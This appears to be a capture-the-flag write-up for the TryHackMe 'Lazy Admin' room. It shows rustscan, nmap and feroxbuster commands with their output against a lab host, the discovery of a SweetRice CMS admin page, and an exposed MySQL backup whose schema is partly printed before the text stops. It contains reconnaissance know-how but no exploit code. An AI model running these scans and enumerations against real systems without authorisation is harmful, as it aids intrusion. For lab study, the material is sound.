





# THM - Lazy Admin 

## Date Commenced 22MAR2022


---
## IP Address
### Attempt 1
export IP=10.10.214.102

### Attempt 2
export IP=10.10.29.176

### Attempt 3
export IP=10.10.76.19


---
## Open Ports
Perform Basic **rustscan** scan:

> 22
>
> 80

> rustscan -a 10.10.214.102 | tee ./Results/rustscan01.log

```
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.214.102:22
Open 10.10.214.102:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-22 10:26 EDT
Initiating Ping Scan at 10:26
Scanning 10.10.214.102 [2 ports]
Completed Ping Scan at 10:26, 0.30s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:26
Completed Parallel DNS resolution of 1 host. at 10:26, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 10:26
Scanning 10.10.214.102 [2 ports]
Discovered open port 80/tcp on 10.10.214.102
Discovered open port 22/tcp on 10.10.214.102
Completed Connect Scan at 10:26, 0.39s elapsed (2 total ports)
Nmap scan report for 10.10.214.102
Host is up, received syn-ack (0.32s latency).
Scanned at 2022-03-22 10:26:38 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.76 seconds
```

**nmap** these open ports:

> nmap $IP -p 22,80,6500,6501 -sC -sV -A -oN ./Results/nmap01.log

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-22 10:28 EDT
Nmap scan report for 10.10.214.102
Host is up (0.23s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp   open   http       Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
6500/tcp closed boks
6501/tcp closed boks_servc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.06 seconds
```


---
## Directories
Use **feroxbuster** to enumerate the directories:

> feroxbuster -u http://$IP -x php,pdf,txt,epub,html,cgi,css

```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.6.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.214.102
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.6.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php, pdf, txt, epub, html, cgi, css]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      375l      968w    11321c http://10.10.214.102/
403      GET        9l       28w      278c http://10.10.214.102/.php
403      GET        9l       28w      278c http://10.10.214.102/.html
301      GET        9l       28w      316c http://10.10.214.102/content => http://10.10.214.102/content/
301      GET        9l       28w      319c http://10.10.214.102/content/js => http://10.10.214.102/content/js/
200      GET      375l      968w    11321c http://10.10.214.102/index.html
301      GET        9l       28w      320c http://10.10.214.102/content/inc => http://10.10.214.102/content/inc/
301      GET        9l       28w      327c http://10.10.214.102/content/attachment => http://10.10.214.102/content/attachment/
200      GET      281l     2496w    15410c http://10.10.214.102/content/license.txt
301      GET        9l       28w      319c http://10.10.214.102/content/as => http://10.10.214.102/content/as/
301      GET        9l       28w      322c http://10.10.214.102/content/as/js => http://10.10.214.102/content/as/js/
403      GET        9l       28w      278c http://10.10.214.102/content/.php
403      GET        9l       28w      278c http://10.10.214.102/content/.html
301      GET        9l       28w      323c http://10.10.214.102/content/as/lib => http://10.10.214.102/content/as/lib/
200      GET      814l     1290w    16226c http://10.10.214.102/content/as/site.css
200      GET      114l      252w     3678c http://10.10.214.102/content/as/index.php
200      GET       50l       90w      752c http://10.10.214.102/content/as/tinymce.css
403      GET        9l       28w      278c http://10.10.214.102/server-status
200      GET      497l     2326w    18013c http://10.10.214.102/content/changelog.txt
[####################] - 50m  2160000/2160000 0s      found:19      errors:54429  
[####################] - 47m   240000/240000  83/s    http://10.10.214.102 
[####################] - 47m   240000/240000  84/s    http://10.10.214.102/ 
[####################] - 47m   240000/240000  83/s    http://10.10.214.102/content 
[####################] - 48m   240000/240000  83/s    http://10.10.214.102/content/js 
[####################] - 8s    240000/240000  0/s     http://10.10.214.102/content/inc => Directory listing (add -e to scan)
[####################] - 13s   240000/240000  0/s     http://10.10.214.102/content/attachment => Directory listing (add -e to scan)
[####################] - 47m   240000/240000  84/s    http://10.10.214.102/content/as 
[####################] - 47m   240000/240000  83/s    http://10.10.214.102/content/as/js 
[####################] - 7s    240000/240000  0/s     http://10.10.214.102/content/as/lib => Directory listing (add -e to scan)
```

Further enum on the */content/* folder:

>feroxbuster -u http://$IP/content/ -e -x php,pdf,txt,epub,html,cgi,css

```

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.6.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.29.176/content/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.6.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, pdf, txt, epub, html, cgi, css]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       61l      277w    14699c http://10.10.29.176/content/images/sweetrice.jpg
200      GET       36l      151w     2198c http://10.10.29.176/content/
200      GET       22l      118w     4493c http://10.10.29.176/content/images/action_icon.png
403      GET        9l       28w      277c http://10.10.29.176/content/.php
200      GET        7l       31w     1355c http://10.10.29.176/content/images/sweetrice_icon.png
200      GET       38l      217w     9678c http://10.10.29.176/content/images/sweetrice.png
200      GET       12l       42w      847c http://10.10.29.176/content/images/ajax-loader.gif
301      GET        9l       28w      318c http://10.10.29.176/content/inc => http://10.10.29.176/content/inc/
403      GET        9l       28w      277c http://10.10.29.176/content/.html
200      GET        3l        8w      299c http://10.10.29.176/content/images/captcha.png
200      GET        5l       26w      791c http://10.10.29.176/content/images/xmlrss.png
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_entry.php
200      GET        3l        5w      201c http://10.10.29.176/content/images/header_background.png
200      GET        0l        0w        0c http://10.10.29.176/content/inc/db.php
200      GET       11l       29w     1308c http://10.10.29.176/content/images/captcha.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/function.php
200      GET       18l       58w     2156c http://10.10.29.176/content/images/loading.gif
301      GET        9l       28w      317c http://10.10.29.176/content/js => http://10.10.29.176/content/js/
200      GET      109l      187w     3016c http://10.10.29.176/content/images/sitemap.xsl
200      GET        1l        6w     1150c http://10.10.29.176/content/images/favicon.ico
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_lang.php
200      GET       50l      205w    10194c http://10.10.29.176/content/images/logo.png
200      GET        0l        0w        0c http://10.10.29.176/content/inc/alert.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_category.php
200      GET     1834l     4283w    52263c http://10.10.29.176/content/js/SweetRice.js
200      GET        0l        0w        0c http://10.10.29.176/content/inc/404.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/rssfeed_category.php
200      GET     1416l     4776w    41204c http://10.10.29.176/content/js/excanvas.compiled.js
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_home.php
200      GET       12l       25w      225c http://10.10.29.176/content/js/init.js
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_ads.php
200      GET       55l      101w     1054c http://10.10.29.176/content/js/function.js
200      GET        0l        0w        0c http://10.10.29.176/content/inc/lang/big5.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/install.lock.php
200      GET        1l        1w        5c http://10.10.29.176/content/inc/lastest.txt
200      GET        0l        0w        0c http://10.10.29.176/content/inc/lang/zh-cn.php
200      GET       35l       81w      910c http://10.10.29.176/content/js/pins.js
200      GET        0l        0w        0c http://10.10.29.176/content/inc/rssfeed.php
301      GET        9l       28w      321c http://10.10.29.176/content/images => http://10.10.29.176/content/images/
200      GET        0l        0w        0c http://10.10.29.176/content/inc/lang/en-us.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/error_report.php
200      GET      102l      527w     4809c http://10.10.29.176/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_tags.php
200      GET        1l        8w     8192c http://10.10.29.176/content/inc/cache/cache.db
200      GET        0l        0w        0c http://10.10.29.176/content/inc/init.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/close_tip.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/rssfeed_entry.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/sitemap_xml.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_comment.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_rssfeed.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_theme.php
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_sitemap.php
200      GET        5l       14w      137c http://10.10.29.176/content/inc/htaccess.txt
200      GET        0l        0w        0c http://10.10.29.176/content/inc/do_attachment.php
200      GET     3750l    17676w   367112c http://10.10.29.176/content/inc/font/arial.ttf
200      GET       36l      151w     2198c http://10.10.29.176/content/index.php
301      GET        9l       28w      322c http://10.10.29.176/content/_themes => http://10.10.29.176/content/_themes/
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/foot.php
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/comment_form.php
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/form.php
200      GET       11l       11w      204c http://10.10.29.176/content/_themes/default/theme.config
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/cat.php
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/entry.php
200      GET      384l      595w     6674c http://10.10.29.176/content/_themes/default/css/app.css
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/head.php
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/sitemap.php
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/show_comment.php
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/sidebar.php
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/tags.php
200      GET        0l        0w        0c http://10.10.29.176/content/_themes/default/main.php
301      GET        9l       28w      325c http://10.10.29.176/content/attachment => http://10.10.29.176/content/attachment/
200      GET      281l     2496w    15410c http://10.10.29.176/content/license.txt
301      GET        9l       28w      317c http://10.10.29.176/content/as => http://10.10.29.176/content/as/
301      GET        9l       28w      320c http://10.10.29.176/content/as/js => http://10.10.29.176/content/as/js/
301      GET        9l       28w      321c http://10.10.29.176/content/as/lib => http://10.10.29.176/content/as/lib/
200      GET       86l      169w     2573c http://10.10.29.176/content/as/js/dashboard.js
200      GET       38l       57w      645c http://10.10.29.176/content/as/js/function.js
200      GET       79l      150w     2312c http://10.10.29.176/content/as/js/media_center.js
200      GET      125l      292w     2840c http://10.10.29.176/content/as/js/BodySort.js
200      GET      814l     1290w    16226c http://10.10.29.176/content/as/site.css
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/db_optimizer.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/ad.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/mysql_backup.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/url_redirect.php
200      GET      471l     2893w    43328c http://10.10.29.176/content/as/lib/license.txt
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/post_insert.php
200      GET      114l      252w     3676c http://10.10.29.176/content/as/index.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_data.php
200      GET      114l      252w     3667c http://10.10.29.176/content/as/
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/function.php
403      GET        9l       28w      277c http://10.10.29.176/content/as/.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/comment.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/pgsql_backup.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_link.php
403      GET        9l       28w      277c http://10.10.29.176/content/as/.html
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_setting.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/sqlite_backup.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/license.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/db_backup.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/install_form.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/site_list.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_plugins.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/htaccess.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/forgot_password.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/install.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/media_center.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/foot.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/transfer_website.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/view_comment.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/post.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_sites.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/reset_password.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_track.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_urlredirect.php
200      GET       50l       90w      752c http://10.10.29.176/content/as/tinymce.css
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_category.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_comment.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/update.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_attachment.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/timezone.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/db_to_sqlite.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_post.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/db_to_pgsql.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/media.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_ad.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/permalinks_custom.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/cat_insert.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_permalinks.php
200      GET       88l      248w     2054c http://10.10.29.176/content/as/lib/app_sqlite.sql
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/attachment.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_password.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_update.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/head.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/custom_field.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/db_converter.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/link.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/theme.php
200      GET      107l      445w     3391c http://10.10.29.176/content/as/lib/app.sql
200      GET      101l      375w     2852c http://10.10.29.176/content/as/lib/app_pgsql.sql
500      GET        0l        0w        0c http://10.10.29.176/content/as/lib/db_to_mysql.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_sitemap.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/permalinks_custom_modify.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/permalinks_system.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/category.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/db_import.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_main.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/information.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/sitemap.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/tinymce.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/view_track.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/main.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_media.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_theme.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_media_center.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/site_modify.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_htaccess.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_image.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/db_sqlexecute.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_cache.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/do_plugin.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/auth_form.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/plugin.php
200      GET        0l        0w        0c http://10.10.29.176/content/as/lib/site.php
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_29_176_content_-1648038192.state ...
[######>-------------] - 13m   239713/722064  26m     found:163     errors:232    
[#######>------------] - 13m    90696/240000  114/s   http://10.10.29.176/content/ 
[####################] - 4s    240000/240000  0/s     http://10.10.29.176/content/images => Directory listing
[####################] - 8s    240000/240000  0/s     http://10.10.29.176/content/inc => Directory listing
[####################] - 5s    240000/240000  0/s     http://10.10.29.176/content/inc/mysql_backup => Directory listing
[####################] - 3s    240000/240000  0/s     http://10.10.29.176/content/js => Directory listing
[####################] - 8s    240000/240000  0/s     http://10.10.29.176/content/inc/font => Directory listing
[####################] - 1s    240000/240000  0/s     http://10.10.29.176/content/inc/lang => Directory listing
[####################] - 1s    240000/240000  0/s     http://10.10.29.176/content/inc/cache => Directory listing
[####################] - 8s    240000/240000  0/s     http://10.10.29.176/content/inc/ads => Directory listing
[####################] - 0s    240000/240000  0/s     http://10.10.29.176/content/_themes => Directory listing
[####################] - 3s    240000/240000  0/s     http://10.10.29.176/content/_themes/default => Directory listing
[####################] - 1s    240000/240000  0/s     http://10.10.29.176/content/_themes/default/css => Directory listing
[####################] - 0s    240000/240000  0/s     http://10.10.29.176/content/attachment => Directory listing
[######>-------------] - 12m    75848/240000  105/s   http://10.10.29.176/content/as 
[####################] - 1m    240000/240000  0/s     http://10.10.29.176/content/as/lib => Directory listing
[####################] - 10s   240000/240000  0/s     http://10.10.29.176/content/as/js => Directory listing
[####################] - 0s    240000/240000  0/s     http://10.10.29.176/content/images/ => Directory listing
[######>-------------] - 11m    73472/240000  105/s   http://10.10.29.176/content/as/ 
[####################] - 0s    240000/240000  0/s     http://10.10.29.176/content/js/ => Directory listing
[####################] - 0s    240000/240000  0/s     http://10.10.29.176/content/as/js/ => Directory listing
```


---
## Web Page
The web page displays the *default* apache homepage, and nothing in the source code:



### /content/
The *content* folder indicates that *SweetRice* CMS is used:



### /content/as/
Found the login page for *SweetRice*:



### /contents/inc/
Found a directory listing;


Gives access to a **mysql** database backup.

```
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `post_id` int(10) NOT NULL,
  `file_name` varchar(255) NOT NULL,
  `date` int(10) NOT NULL,
  `downloads` int(10) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
  3 => 'CREATE TABLE `%--%_category` (
  `id` int(4) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `link` varchar(128) NOT NULL,
  `title` text NOT NULL,
  `description` varchar(255) NOT NULL,
  `keyword` varchar(255) NOT NULL,
  `sort_word` text NOT NULL,
  `parent_id` int(10) NOT NULL DEFAULT \'0\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `link` (`link`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
  5 => 'CREATE TABLE `%--%_comment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(60) NOT NULL DEFAULT \'\',
  `email` varchar(255) NOT NULL DEFAULT \'\',
  `website` varchar(255) NOT NULL,
  `info` text NOT NULL,
  `post_id` int(10) NOT NULL DEFAULT \'0\',
  `post_name` varchar(255) NOT NULL,
  `post_cat` varchar(128) NOT NULL,
  `post_slug` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `ip` varchar(39) NOT NULL DEFAULT \'\',
  `reply_date` int(10) NOT NULL DEFAULT \'0\',
